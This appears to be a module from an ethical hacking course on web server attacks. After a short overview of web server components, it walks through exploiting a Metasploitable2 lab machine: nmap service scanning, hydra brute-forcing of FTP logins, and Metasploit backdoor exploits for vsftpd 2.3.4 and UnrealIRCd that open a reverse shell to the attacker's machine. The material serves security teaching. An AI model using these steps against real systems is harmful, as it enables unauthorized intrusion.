 ﻿
**  

**Module 13**

` `**Hacking Web Server**

A webserver is hardware or software that stores, process, and deliver web page via HTTP protocol. When a user request video or photo from a search engine actually he becomes the client and his browser generates HTTP request that is sent to the web server than web server collect the request from the data storage or application web server and respond the client request with appropriate HTTP response.

![Web Servers - Javatpoint](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.001.png)

**Component of web server** 

**Document root**

It is a directory of web server in which root file of directory are there and into them critical HTML file are stored related to the web page of domain name.

**Server root**

It is also a directory but it is top-level directory in which server configuration and error, executable and log file are stored.

**Virtual Document Tree**

It provide additional storage on different machine or disk after the original space become full.

**Virtual Hosting** 

It is a technique of hosting a multiple domain or website in same server . This technique allows the sharing of resource among various server.

**Web Proxy**

A proxy server is located between the web client and web server. This is used to prevent from IP blocking and maintaining anonymity. 

**IIS Web Server Architecture** 

Internet Information Service is a web server application which is flexible for hosting anything on the web like HTTP, HTTP secure (HTTPS), FTP(file transfer protocol), FTPS (FTP secure), SMTP (simple mail transfer protocol).

It also has several component like http listener and service like WWW Publishing Service.

**Common Goal Behind web server hacking** 

Stealing credential detail or sensitive information.

Compromising the Database

Escalating privilege

Obtaining Source code of application 



**Foot printing the webserver**

We had  seen most tool of foot printing in beginning module like 

Whois lookup 

DNS lookup 

http recon 

nmap etc

Lets see foot printing of webserver with nmap 

First we need a webserver 

Download metasploitable2 machine 

Source :- <https://www.vulnhub.com/entry/metasploitable-2,29/>

Install it on VMware

Launch it, default credential is 

username = “msfadmin” 

password = “msfadmin”

Run ifconfig we get IP, search this IP we get webpage with different module

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.002.png)

Lets run nmap

Command :- nmap -sV [IP]

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.003.png)

We can see all services running on metasploitable2 machine. 

First let check user and password of ftp server by bruteforce attack with the help of HYDRA

Command:- hydra -L (user\_list) -P (pass\_list) [IP] [service]

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

This is ftp valid user 

On port 21 ftp service are enable for webservice, lets exploit it 

Open msfconsole 

And search  ftp with its version.

Command :- Search vsftpd 2.3.4

We can use auxiliary/scanner/ftp/ftp\_login ß to enumerate the user

But let’s do exploit 

- Use exploit/unix/ftp/vsftpd\_234\_backdoor

Set rhosts [192.168.40.134]



![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.005.png)

Run this exploit

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.006.png)

We can see here we got shell

Lets run ifconfig command in this shell

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.007.png)

We can see IP of metasploitable2 machine 

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

This is telnet user

We can login through telnet

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

Lets exploit port 6667 

6667/tcp open  irc    UnrealIRCd

Search UnrealIRCd

Use exploit/unix/irc/unreal\_ircd\_3281\_backdoor

Set rhosts

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.008.png) 


Set payload cmd/unix/reverse

Set lhost (kali ip)

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.004.png)

Run the exploit <┙

We got the shell now we can run the command but let’s check IP by ifconfig

![](Aspose.Words.4da4af5e-571c-463c-8aa0-2d19525e89ae.009.png)

We can see the server IP which is metasploitable2 machine IP.

Md Asad Ansari

Security analyst

asad@craw.in

